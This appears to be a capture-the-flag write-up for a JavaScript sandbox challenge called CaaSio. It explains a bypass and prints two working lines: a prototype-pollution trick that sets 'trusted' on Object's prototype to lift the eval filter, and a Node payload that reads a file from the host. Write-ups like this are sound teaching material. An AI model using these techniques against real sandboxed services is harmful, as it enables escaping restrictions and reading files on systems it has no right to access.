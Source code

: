 # CaaSio

This was a cool JavaScript sandbox bypass problem.

I originally thought the solution required doing something with [`__defineGetter__`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/__defineGetter__) and [`__lookupGetter__`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/__lookupGetter__), but realized that you couldn't use `__defineGetter__` on frozen objects.

Eventually, I figured out a way to abuse the permissive regular expression (with a lot of testing on [regex101](https://regex101.com/)), arrow functions, and scoping rules to set a prototype for the `trusted` attribute. This is demonstrated with the two lines below that will get the flag:

```js
// Set Object.__proto__.trusted = 1 to pass user.trusted check, which removes
// all filters from eval-ed code.
((Math)=>Math.trusted=1)(Math.__proto__)

// Use a simple Node file-read payload once the filter has been lifted.
global.process.mainModule.require('fs').readFileSync('/ctf/flag.txt').toString('utf8')
```
